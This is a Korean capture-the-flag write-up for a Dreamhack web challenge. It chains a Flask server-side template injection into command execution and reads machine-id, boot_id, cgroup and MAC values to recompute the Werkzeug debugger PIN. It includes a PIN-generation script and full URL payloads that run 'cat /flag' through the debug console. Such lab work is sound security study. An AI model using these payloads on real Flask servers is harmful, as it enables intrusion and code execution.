# 1. 웹페이지


웹페이지에 접근하면 Hello 라는 문자열이 출력된다. 이 이외에 다른 기능은 보이지 않았으며 웹페이지의 구조와 취약점을 자세히 파악하기 위해 제공된 소스코드를 분석하였다.

# 2. 소스코드 분석

파일은 Dockerfile과 app.py 파일이 주어졌으며 app.py 파일은 admin, main 두 디렉터리에 각각 존재하였다. 일단 먼저 main 디렉터리의 app.py 파일부터 분석하였다.



특별한 기능은 존재하지 않지만 path에 입력된 내용을 s 변수에 저장한 후 s 변수 값이 포함된 문자열을 render_template_string() 함수를 호출하여 렌더링한다. 해당 함수의 경우 사용자의 입력 값이 포함되면 SSTI 취약점이 발생할 수 있는 함수이므로 사용을 지양하는 것이 좋다. SSTI 취약점이 발생하는지를 테스트해보기 위해 {{config}} 템플릿 구문을 입력해보았다.



입력한 템플릿 구문이 실행되어 웹 애플리케이션 설정 내용이 출력되므로 이 웹페이지에는 SSTI 취약점이 존재함을 알 수 있다.

추가로 RCE 취약점을 발생시킬 수 있는 템플릿 구문을 입력하여 시스템 명령('ls')을 실행시킬 수 있는 것을 확인하였다.



시스템 명령을 실행시킬 수 있는 것을 확인하였으므로 flag 파일을 출력하기 위해 flag 파일의 위치를 파악하기 위한 Dockerfile 파일을 분석하였다.



Dockerfile의 내용을 보면 flag 파일을 / 디렉터리에 복사한 것을 알 수 있다. 따라서 cat /flag 명령을 실행하면 flag를 획득할 수 있을 것이라고 판단하여 cat /flag 명령을 실행시키기 위한 템플릿 구문을 입력하였는데, flag 파일을 획득하지 못했다.

그 이유는 Dockerfile 파일을 살펴보면 알 수 있다. 위의 Dockerfile 파일 내용 중 강조된 부분의 다음 줄을 보면 RUN chmod 700 /flag 명령을 실행하는 것을 알 수 있다. 이 파일은 소유자에게만 읽기, 쓰기, 실행 권한이 허용되어 있으며 그룹 및 기타 사용자에게는 권한이 전부 허용되어 있지 않다.





위의 두 그림은 각각 ls -al / , whoami 명령어를 실행시킨 결과이다.  두 그림을 보면 flag 파일의 소유자는 root이며 현재 사용자는 user 이기 때문에 /flag 파일을 읽기, 쓰기, 실행할 수 없는 것이다.

다음은 /admin 폴더의 app.py 파일을 분석하였다.



이 app.py 파일에서 주목해야 할 부분은 debug=True 로 지정되어 있다는 것이다. debug 옵션이 True로 설정되어 실행되면 디버그 모드가 활성화되며 /console 페이지에 접근하면 디버그 터미널에 접근할 수 있다. 하지만 admin 페이지의 경우 클라이언트 측에서는 접근할 수 없으며 서버 내부에서만 접근이 가능하다.

추가적인 정보 파악을 위해 Dockerfile 파일을 살펴보면 curl이 설치되는 것을 알 수 있다. 발견된 취약점을 이용해 curl localhost:8000 명령을 실행한 결과 admin 페이지에 접근이 가능한 것을 확인하였다.



또한 curl 명령어를 사용해 http://localhost:8000/console 페이지에 접근하여 디버그 터미널에 접근이 가능함을 확인하였다.



하지만 아래의 그림과 같이 디버그 터미널을 사용하기 위해서는 PIN 번호를 입력하여야 한다. 하지만 현재 curl 명령어의 실행 결과만 노출되고 있으므로 PIN 번호를 입력할 수 없다. 게다가 PIN 번호를 알 수 없으므로 디버그 터미널을 이용하는 것은 불가능하다.



소스코드 분석을 통해 SSTI 취약점의 존재를 확인하였으며 해당 취약점을 이용해 시스템 명령어를 실행시킬 수 있고, 실행된 결과가 노출되는 것을 확인할 수 있었다. 하지만 flag 파일은 소유자에게만 읽기, 쓰기, 실행 권한이 있기 때문에 해당 취약점으로는 flag 파일의 내용을 알 수 없다.

하지만 디버그 기능이 허용되어 있기 때문에 해당 기능을 이용할 수 있는 방법을 조사하였다.



위의 그림은 로컬 환경에서 PIN 번호를 입력한 후 디버그 터미널에 파이썬 코드를 입력한 결과이다. 그리고 아래의 그림은 입력된 코드가 실행될 때의 로그이다.



로그를 보면 cmd 파라미터 입력 값으로 실행할 파이썬 코드를 받는 것을 알 수 있다. 이외에도 다른 파라미터 값이 요청 시에 포함되는 것을 알 수 있는데 이 파라미터 값들이 포함되어야 디버그 터미널이 정상적으로 실행된다. 요청에 포함되어야 할 파라미터는 다음과 같다.

 __debugger__ : yes로 고정

cmd : 실행할 파이썬 코드

frm : 0 으로 고정

pin : 디버그 터미널 PIN 번호

s : 해당 파라미터에 입력되어야 할 값은 디버그 터미널 페이지에 접속하면 알아낼 수 있음.

s 파라미터에 입력되어야 할 값을 알아내기 위해 curl localhost:8000/console 명령을 실행시켜 서버 내부의 디버그 터미널 페이지에 접근하였다.



디버그 터미널 페이지 소스코드에 SECRET 값이 포함되어있다. 이 값이 s 파라미터 값이 된다.

# 3. 공격 방법

1) SSTI 취약점을 이용하여 디버그 터미널을 사용하기 위해 필요한 PIN 번호를 알아낸다.

2) PIN 번호를 포함하는 요청을 보내어 PIN 번호 인증을 실행한다.

3) RCE 취약점을 발생시키는 파이썬 코드를 전송하여 서버 측 디버그 터미널에서 실행되도록 하여 flag를 획득한다.

# 4. 공격 실행

PIN 번호를 생성하기 위한 코드는 다음과 같다.

```
from itertools import chain
import hashlib
import requests
import sys
import re
import urllib

def generate_pin():
    probably_public_bits = [
        username,
        modname,
        getattr(app, "__name__", type(app).__name__),
        getattr(mod, "__file__", None),
    ]

    private_bits = [str(uuid.getnode()), get_machine_id()] 

    rv = None
    num = None

    h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode()
        h.update(bit)
    h.update(b"cookiesalt")

    cookie_name = f"__wzd{h.hexdigest()[:20]}"

    # If we need to generate a pin we salt it a bit more so that we don't
    # end up with the same value and generate out 9 digits
    if num is None:
        h.update(b"pinsalt")
        num = f"{int(h.hexdigest(), 16):09d}"[:9]

    # Format the pincode in groups of digits for easier remembering if
    # we don't have a result yet.
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = "-".join(
                    num[x : x + group_size].rjust(group_size, "0")
                    for x in range(0, len(num), group_size)
                )
                break
        else:
            rv = num
    return rv

print(generate_pin())
```

코드를 보면 PIN 번호를 생성하기 위해 probably_public_bits, private_bits 두 리스트를 사용한다. 리스트의 요소 값들은 서버 측의 정보를 필요로 하여 일반적으로는 유추해낼 수 없으나 지금과 같이 서버 내부 정보를 파악할 수 있는 취약점이 존재한다면 요소 값들을 알아낼 수 있다.

먼저 probably_public_bits 리스트의 각 요소는 다음의 의미를 가지고 있다.

#### username : app.py를 실행한 사용자의 이름 

#### modname : 일반적으로 flask.app 으로 지정됨.

#### getattr(app, "__name__", type(app).__name__) : 일반적으로 Flask로 지정됨.

#### getattr(mod, "__file__", None) : 서버 측 Flask 모듈 폴더의 app.py 파일이 존재하는 절대경로. 파이썬 버전마다 다르므로 확인이 필요함. (일반적으로 usr/local/lib/python[python_version]/site-packages/flask/app.py)

그리고 private_bits 리스트의 각 요소(str(uuid.getnode()), get_machine_id())는 다음과 같다.

#### str(uuid.getnode()) : uuid.getnode() 함수는 서버 측 PC의 MAC 주소를 int형으로 반환한다.

#### get_machine_id() 함수는 아래와 같이 작성되어있다.

```
def get_machine_id() -> str | bytes | None:
    global _machine_id

    if _machine_id is not None:
        return _machine_id

    def _generate() -> str | bytes | None:
        linux = b""

        # machine-id is stable across boots, boot_id is not.
        for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
            try:
                with open(filename, "rb") as f:
                    value = f.readline().strip()
            except OSError:
                continue

            if value:
                linux += value
                break

        # Containers share the same machine id, add some cgroup
        # information. This is used outside containers too but should be
        # relatively stable across boots.
        try:
            with open("/proc/self/cgroup", "rb") as f:
                linux += f.readline().strip().rpartition(b"/")[2]
        except OSError:
            pass

        if linux:
            return linux
```

먼저 /etc/machine-id, /proc/sys/kernel/random/boot-id 두 파일의 내용을 한 줄 가져와서 합친 후 linux 변수에 저장하고 /proc/self/cgroup 파일의 내용을 한 줄 가져와서 strip().rpartition(b"/")[2] 한 값을 linux 변수에 이어붙인다. 

probably_public_bits 리스트의 요소 값들은 취약점을 통해 알아내지 않아도 유추가 가능하기 때문에 private_bits 리스트의 각 요소 값들을 알아내야한다. 

uuid.getnode() 함수의 반환 값을 알아내기 위해 /sys/class/net/eth0/address 파일의 내용을 출력하여 MAC 주소를 알아낸 후 int 형으로 변환하였다. 그리고 get_machine_id() 함수의 반환값을 알아내기 위해 /etc/machine-id 파일의 내용을 출력하였으나 파일이 존재하지 않았다. 따라서 /proc/sys/kernel/random/boot_id 파일과 /proc/self/cgroup 파일의 내용을 출력하여 get_machine_id() 함수의 반환값을 알아내었다.

PIN 생성에 필요한 probably_public_bits, private_bits 리스트의 값은 다음과 같다.

```
probably_public_bits = [
	'root',# username
	'flask.app',# modname
	'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
	'/usr/local/lib/python3.8/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
	'187999308491777',# str(uuid.getnode()),  /sys/class/net/ens33/address 
	# Machine Id: /etc/machine-id + /proc/sys/kernel/random/boot_id + /proc/self/cgroup
	'adea9fdb-33e3-49e4-84b4-1cb775dd8a49libpod-bc9307ab42df53a0184e74603c26528d6cd87bfa8e3950343122b0f4f108960c'
]
```

이제 이 값들을 가지고 PIN 번호를 생성하였다.

PIN : 507-842-243

이제 이 PIN 번호가 포함된 요청을 서버 측으로 전송하여 PIN 인증을 진행하였다.

```
# 요청 URL
http://host1.dreamhack.games:12487/%7B%7B%20''.__class__.__mro__[1].__subclasses__()[398]('curl%20-G%20-i%20localhost:8000/console%20--data-urlencode%20__debugger__=yes%20--data-urlencode%20s=EhQek8v6ekhIjJ6gdZaH%20--data-urlencode%20frm=0%20--data-urlencode%20cmd=pinauth%20--data-urlencode%20pin=507-842-243',shell=True,stdout=-1).communicate()%20%7D%7D
```

요청을 보낸 결과 PIN 인증에 성공하였으며 발급된 쿠키 값을 확인할 수 있었다.



이제 PIN 인증에 성공하여 쿠키 값을 획득하였으며 획득한 쿠키 값과 실행시킬 파이썬 코드를 포함한 요청을 디버그 터미널 페이지로 보낸 결과 flag를 획득할 수 있었다.

#### 최종 공격 payload

```
http://host1.dreamhack.games:12487/%7B%7B%20''.__class__.__mro__[1].__subclasses__()[398](%22curl%20-G%20-b%20'__wzd5b4127f2fcda3606095a=1722402374|496a1454c977'%20-i%20localhost:8000/console%20--data-urlencode%20__debugger__=yes%20--data-urlencode%20s=EhQek8v6ekhIjJ6gdZaH%20--data-urlencode%20frm=0%20--data-urlencode%20'''cmd=__import__(%5C%22os%5C%22).popen(%5C%22cat%20%2Fflag%5C%22).read();'''%22,shell=True,stdout=-1).communicate()%20%7D%7D
```




# 5. 참고

- https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/__init__.py

- https://github.com/its-arun/Werkzeug-Debug-RCE/blob/master/werkzeug.py


